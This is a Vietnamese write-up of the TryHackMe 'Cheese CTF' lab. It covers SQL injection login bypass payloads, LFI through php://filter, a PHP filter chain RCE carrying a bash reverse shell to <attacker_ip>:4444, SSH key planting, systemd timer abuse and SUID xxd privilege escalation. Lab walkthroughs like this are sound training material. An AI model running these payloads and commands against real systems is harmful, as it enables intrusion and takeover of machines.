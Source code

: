 # Cheese CTF – TryHackMe Write-up

## 1. Recon (Khám phá ban đầu)

* Sử dụng **nmap** để quét dịch vụ:

  ```bash
  nmap -sC -sV -Pn <target_ip>
  ```
* Kết quả: nhiều port trả về banner giả, nhưng **port 80** chạy web app thực sự (Cheese Shop).

---

## 2. SQL Injection – Bypass Login

* Trên web có form login. Thử các payload classic:

  ```sql
  ' OR '1'='1'-- -
  ```
* Hoặc

  ```sql
  ' || '1'='1'-- -
  ```
* Thành công bypass và vào được **admin panel**.

---

## 3. LFI → RCE qua PHP Filter Chain

* Trong admin panel có `secret-script.php?file=` → có thể đọc file.
* Test:

  ```
  http://<ip>/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php
  ```
* Thấy được code PHP gốc → LFI confirmed.
* Tạo payload RCE bằng tool [`php_filter_chain_generator.py`](https://github.com/synacktiv/php_filter_chain_generator):

  ```bash
  python3 php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1\""); ?>'
  ```
* Lấy chuỗi payload và dùng trong URL → reverse shell về **nc listener**:

  ```bash
  nc -lvnp 4444
  ```
* Thu được shell `www-data`.

---

## 4. Từ www-data → user comte

* Check file writable:

  ```bash
  find /home/comte/.ssh/ -type f -writable
  ```
* Thấy `authorized_keys` writable → tạo key SSH:

  ```bash
  ssh-keygen -t rsa -f mykey
  cat mykey.pub >> /home/comte/.ssh/authorized_keys
  ssh -i mykey comte@<target_ip>
  ```
* Vào được user `comte`.

---

## 5. Privilege Escalation – comte → root

* Check sudo quyền:

  ```bash
  sudo -l
  ```
* Thấy có quyền chạy `systemctl` liên quan tới **exploit.timer**.
* Kiểm tra file unit `exploit.timer`, sửa `OnBootSec=` thành:

  ```ini
  OnBootSec=1s
  ```
* Reload và start timer:

  ```bash
  sudo systemctl daemon-reload
  sudo systemctl start exploit.timer
  ```
* Kết quả: `/opt/xxd` được tạo với SUID root.

---

## 6. Root bằng SUID `xxd`

* `xxd` là binary dump hex → có SUID root.
* Có thể dùng để đọc file root flag:

  ```bash
  /opt/xxd /root/root.txt | xxd -r
  ```
* Hoặc ghi SSH key vào `/root/.ssh/authorized_keys` để SSH root.

---

## 7. Tổng kết

### Khai thác chính:

1. **Recon (nmap)** → tìm web app.
2. **SQLi** → bypass login.
3. **LFI** → đọc source.
4. **PHP filter chain RCE** → shell www-data.
5. **SSH key injection** → user comte.
6. **Systemd timer exploit** → tạo SUID binary.
7. **SUID xxd abuse** → root flag.

### Tool dùng:

* `nmap`, `php_filter_chain_generator.py`, `nc`, `ssh-keygen`, `systemctl`, `xxd`

### Khái niệm học được:

* **SQLi**: chèn query để bypass/trích xuất DB.
* **LFI**: load file hệ thống.
* **RCE**: thực thi code từ xa.
* **Reverse shell**: kết nối shell ngược về attacker.
* **Privilege Escalation**: leo quyền.
* **SUID binary**: binary chạy với quyền owner (root).
* **Systemd timer abuse**: khai thác config để chạy code với root.

---

✅ Kết quả: Rooted thành công hệ thống!

